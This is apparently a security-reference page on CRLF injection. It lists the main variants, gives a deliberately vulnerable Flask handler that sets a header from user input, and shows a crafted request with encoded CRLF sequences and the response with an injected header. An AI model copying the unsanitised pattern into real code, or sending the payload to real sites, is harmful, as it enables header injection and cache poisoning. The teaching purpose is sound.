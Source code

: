 CRLF injection is a vulnerability where an attacker manages to inject a CRLF sequence (carriage return and line feed) into the response, allowing them to manipulate the response body and/or headers.

CRLF injection attacks include:

- **HTTP Response Splitting** 

An attack where an attacker inserts CRLF sequences into user input, aiming to manipulate the HTTP response generated by the web application. This can lead to various consequences, such as injecting malicious content or crafting misleading responses.
 
- **HTTP Header Injection** 

Involves injecting CRLF sequences into HTTP headers. This attack can lead to security issues, allowing an attacker to add or modify headers, potentially leading to cache poisoning, session fixation, or other forms of web application compromise.
 
- **Memcache Injection**

A type of CRLF attack that targets systems utilizing Memcached, a distributed memory caching system. Attackers inject CRLF sequences to manipulate the content stored in Memcached, possibly leading to cache poisoning, information disclosure, or denial of service.

- **Server-Side Request Forgery:** 

A broader attack that sometimes involves CRLF injection. In this scenario, an attacker tricks the server into making requests to internal resources by injecting malicious input containing CRLF sequences. The attacker may exploit this to access sensitive information, pivot through internal systems, or perform unauthorized actions on behalf of the server.


=== "Python"
  ```python
  import flask
  from flask import request
  from flask import make_response
  
  app = flask.Flask(__name__)
  
  @app.route("/")
  def index():
      header = request.args.get("header")
      username = request.args.get("username")
      resp = make_response("Hello: %s" % username)
      resp.headers.set(header, username)
      return resp
  
  app.run(host="0.0.0.0", port=8080)
  ```

=== "Request"
  ```http
  GET /?header=GET%20/?name=A:a%0a%0dA:d%0d%0d%0a%0dInjected-Header&username=abc HTTP/1.1
  Host: localhost
  User-Agent: Mozilla/5.0
  Referrer: http://localhost/
  ```

=== "Response"
  ```http
  HTTP/1.1 200 OK
  Server: Werkzeug/2.3.7 Python/3.10.12
  Date: Tue, 09 Jan 2024 11:03:05 GMT
  Content-Type: text/html; charset=utf-8
  Content-Length: 10
  GET /?name=A:a
  
  A:d
  
  
  Injected-Header: abc
  Connection: close
  
  Hello: abc
  ```